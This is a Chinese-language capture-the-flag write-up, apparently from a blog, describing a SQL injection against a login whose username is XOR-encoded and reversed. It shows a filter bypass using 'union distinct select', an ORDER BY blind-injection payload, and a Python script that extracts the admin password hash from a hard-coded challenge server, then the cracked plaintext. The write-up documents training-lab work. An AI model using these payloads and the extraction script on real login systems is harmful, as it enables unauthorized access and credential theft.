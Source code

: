 分析出加密的方式，写个脚本
```
key = "1470"*10
name = "' AND select 1#"

name =  ''.join(reversed(list(name)))
tmp=[]
for i in range(len(name)):
	tmp.append(hex(ord(name[i])^ord(key[i]))[2:].zfill(2))

enc = ''.join(tmp)
print enc

```

猜测是sql注入，但是有点儿麻烦的是union select和括号被过滤了，很难受。

后来查到可以用用union distinct select方式绕过union select ，然后使用order by盲注

`admin'union distinct select 1,’test’,'3' order by 3 desc# `
如果username返回的是admin，那么自己构造的password小于admin的密码
大于的话就会返回test

```
 import requests
#5AF1AB27B1BE8BB8E39BDF98CD2CFCE4
password = ""
for i in range(0,33):
	for j in range(33,127):
		key = "1470"*100
		name = "admin'union distinct select 1,'test','"+password+chr(j)+"' order by 3 desc #"
		print name
		name =  ''.join(reversed(list(name)))
		tmp=[]
		print len(name)
		for i in range(len(name)):
		    tmp.append(hex(ord(name[i])^ord(key[i]))[2:].zfill(2))	

		enc = ''.join(tmp)
		print enc	

		r = requests.post(url = "http://58.213.63.30:10005" , data = {'username':enc,'password':'123'})
		# print r. content
		if "test" in r.content:
			password = password+chr(j-1)
			break
print password 
```

密码5AF1AB27B1BE8BB8E39BDF98CD2CFCE4
拿cmd5查
密码明文:CleverBoy123
加密之后
```
username=”5f5d5a5450”
password=”020606495e76455547515b73”
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t2e9kvty7o8xv0kj5x7uh18d/image_1b9uuk1n36lm1gonn8bemmv99.png
